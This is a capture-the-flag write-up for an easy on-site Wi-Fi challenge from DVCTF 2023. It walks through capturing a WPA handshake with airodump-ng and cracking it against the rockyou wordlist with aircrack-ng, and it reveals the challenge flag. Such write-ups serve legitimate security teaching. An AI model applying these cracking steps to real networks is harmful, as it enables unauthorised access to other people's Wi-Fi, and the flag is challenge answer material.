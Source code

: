 ### MyWifi 1/2
**Category:** Pentest (On Site) - **Difficulty:** Easy - **Solves:** 5    
**Description:**  
We forgot the password of our wifi (*DVCTF2023_Part1*). Can you help us?  
  
> Flag format : dvCTF{wifi_password}  

**Solution:**  
To solve this challenge, you need to capture an handshake and crack the wifi password with it :  
- Turn on your wifi card in monitor mode : `airmon-ng start wlan0`  
- List all the wifi networks arround you : `airodump-ng wlan0mon`  
![Airodump-NG](https://user-images.githubusercontent.com/91023285/220078683-cd4d603b-39d4-4495-bb09-d6413472cd9f.png)  

- Capture packets and wait a client connect to the wifi (to get the handshake) : `airodump-ng --bssid <MAC Address> --channel <channel> --write <file_name> wlan0mon`  
:information_source: You didn't need to make a deauth attack to get the handshake, because the infrastructure was composed of 1 AP and 1 client, who connect/disconnect each 10 seconds.

![Airodump-NG](https://user-images.githubusercontent.com/91023285/220079135-9c325200-2c87-4a2d-84c8-92c6a37bf1cc.png)  

- Crack the password with RockYou wordlist : `aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <MAC Address> <file_name>.cap`  
  (You need to wait about 10 minutes)  
![Aircrack-NG](https://user-images.githubusercontent.com/91023285/220079295-81638dc3-859b-4763-b2b6-d9d0ffa25e75.png)  


<details>
  <summary>:triangular_flag_on_post: FLAG</summary>

  ```
  dvCTF{PAPAbiscoitos}
  ```
</details>
